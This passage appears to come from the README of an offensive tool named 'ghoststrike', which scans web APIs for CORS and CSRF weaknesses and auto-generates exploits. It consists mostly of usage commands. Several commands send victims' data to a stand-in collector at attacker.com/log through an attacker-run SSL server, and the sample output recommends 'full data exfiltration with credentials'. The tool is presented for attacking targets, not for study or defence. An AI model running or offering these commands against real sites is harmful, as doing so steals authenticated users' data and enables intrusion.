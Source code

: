 ### 2. Auto-Exploit (Fastest)

```bash
# Scan and auto-generate exploit
python3 ghoststrike.py --scan -u https://target.com/api/data \
  --auto-exploit -e https://attacker.com/log \
  --server --ssl --port 4443
```

### 3. Manual Attack Selection

```bash
# Scan first to identify vulnerabilities
python3 ghoststrike.py --scan -u https://target.com/api/data -v

# Choose specific attack based on findings
python3 ghoststrike.py --generate cors-exfil \
  -t https://target.com/api/data \
  -e https://attacker.com/log \
  --server --ssl --port 4443
```

---

## Usage

### Scan Mode

Identify CORS/CSRF vulnerabilities and get attack recommendations:

```bash
python3 ghoststrike.py --scan -u <target-url> [options]

Options:
  -u, --url URL              Target URL to scan
  -c, --cookie COOKIE        Cookie header (session=abc123)
  -H, --header HEADER        Custom headers (can be used multiple times)
  -v, --verbose              Verbose output
```

**Example Output:**
```
[!] Found 2 vulnerability(ies):

[1] Arbitrary Origin Reflection
    Severity: High
    Credentials: True
    
    Available Attacks:
      → CORS Arbitrary Origin (cors-exfil)
      → Full data exfiltration with credentials

Recommended Command:
  ghoststrike --generate cors-exfil -t <target> -e <exfil>
```
